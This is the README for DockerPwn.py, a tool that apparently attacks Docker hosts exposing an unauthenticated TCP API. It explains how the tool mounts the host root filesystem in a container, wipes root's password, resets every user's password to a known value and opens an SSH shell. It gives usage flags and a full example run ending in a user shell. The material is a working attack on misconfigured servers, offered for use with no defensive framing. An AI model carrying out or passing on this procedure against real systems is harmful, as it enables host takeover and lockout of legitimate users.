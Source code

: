 # DockerPwn.py

Automation for abusing an exposed Docker TCP Socket.

This will automatically create a container on the Docker host with the root filesystem mounted,
allowing arbitrary read and write of the root filesystem (which is bad).

Once created, the script will empty the password requirement for 'root', and will alter any user
with a valid Unix password to have a password of 'DockerPwn'

Once this is done, the script will attempt to use Paramiko to login to all users enumerated from 
/etc/passwd using the password 'DockerPwn', and a shell will be spawned. 

## Roadmap:

Utilize the limited command execution via Paramiko to get a better shell, and automatically escalate to root.


## Usage:
```
DockerPwn.py [-h] [--target TARGET] [--port PORT]

optional arguments:
  -h, --help       show this help message and exit
  --target TARGET  IP of Docker Host
  --port PORT      Docker API TCP Port
 ```
## Example Output:

```
Dylans-MacBook-Pro:~ dylan$ /usr/local/bin/python3 /Users/dylan/Documents/DockerPwn.py --target 192.168.0.20 --port 2375

[+] Successfully probed the API. Writing out list of containers just in case there's something cool.

[+] Downloading latest Alpine Image for a lightweight pwning experience.

[+] Alpine image is downloading to the host. Hope we aren't setting off any alarms. Sleeping for a bit.

[+] Alright, creating Alpine Linux Container now...

[+] Success! Created container with root volume mounted. Got ID 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c!

[+] Starting container 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c

[+] Container successfully started. Blue team will be with you shortly.

[+] Phew, alright. Creating the EXEC to change passwords.

[+] EXEC successfully created on container! Got ID bc5ee929577554b9bc573b33c4a7e811542657a6aaeba6791d07bbdcc602103f!

[+] Now triggering the EXEC to change passwords. Hope SSH is open...

[+] EXEC successfully triggered. Printing users found in /etc/passwd.

[!] User List: root daemon bin sys sync games man lp mail news uucp proxy www-data backup list irc gnats nobody systemd-network systemd-resolve syslog messagebus _apt lxd uuidd dnsmasq landscape pollinate sshd dylan

[+] OK, looking good. Attempting to open shell as root. This may take a minute or two.

[-] Login failed for root
[-] Login failed for daemon
[-] Login failed for bin
[-] Login failed for sys
[-] Login failed for sync
[-] Login failed for games
[-] Login failed for man
[-] Login failed for lp
[-] Login failed for mail
[-] Login failed for news
[-] Login failed for uucp
[-] Login failed for proxy
[-] Login failed for www-data
[-] Login failed for backup
[-] Login failed for list
[-] Login failed for irc
[-] Login failed for gnats
[-] Login failed for nobody
[-] Login failed for systemd-network
[-] Login failed for systemd-resolve
[-] Login failed for syslog
[-] Login failed for messagebus
[-] Login failed for _apt
[-] Login failed for lxd
[-] Login failed for uuidd
[-] Login failed for dnsmasq
[-] Login failed for landscape
[-] Login failed for pollinate
[-] Login failed for sshd
[+] Login succeeded for dylan!

DockerPwn@192.168.0.20> id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

DockerPwn@192.168.0.20> 
```
